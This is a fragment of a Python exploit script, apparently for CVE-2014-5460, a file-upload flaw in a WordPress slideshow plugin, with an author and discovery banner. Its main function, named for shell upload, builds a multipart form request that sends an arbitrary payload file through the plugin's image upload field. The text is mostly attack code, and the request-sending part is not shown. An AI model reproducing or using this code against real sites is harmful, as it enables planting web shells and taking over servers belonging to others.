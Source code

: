     # Create multipart header
    def create_body_sh3ll_upl04d(payloadname):

       getfields = dict()
       getfields['Slide[id]'] = ''
       getfields['Slide[order]'] = ''
       getfields['Slide[title]'] = 'h0m3l4b1t'
       getfields['Slide[description]'] = 'h0m3l4b1t'
       getfields['Slide[showinfo]'] = 'both'
       getfields['Slide[iopacity]'] = '70'
       getfields['Slide[type]'] = 'file'
       getfields['Slide[image_url]'] = ''
       getfields['Slide[uselink]'] = 'N'
       getfields['Slide[link]'] = ''
       getfields['Slide[linktarget]'] = 'self'
       getfields['Slide[title]'] = 'h0m3l4b1t'

       payloadcontent = open(payloadname).read()

       LIMIT = '----------lImIt_of_THE_fIle_eW_$'
       CRLF = '\r\n'

       L = []
       for (key, value) in getfields.items():
          L.append('--' + LIMIT)
          L.append('Content-Disposition: form-data; name="%s"' % key)
          L.append('')
          L.append(value)

       L.append('--' + LIMIT)
       L.append('Content-Disposition: form-data; name="%s"; filename="%s"' % ('image_file', payloadname))
       L.append('Content-Type: %s' % get_content_type(payloadname))
       L.append('')
       L.append(payloadcontent)
       L.append('--' + LIMIT + '--')
       L.append('')
       body = CRLF.join(L)
       return body

    banner = """
      =============================================
      - Release date: 2014-08-28
      - Discovered by: Jesus Ramirez Pichardo
      - CVE: 2014-5460
      =============================================

                      Written by:

                    Claudio Viviani

                 http://www.homelab.it

                    info@homelab.it
                 homelabit@protonmail.ch

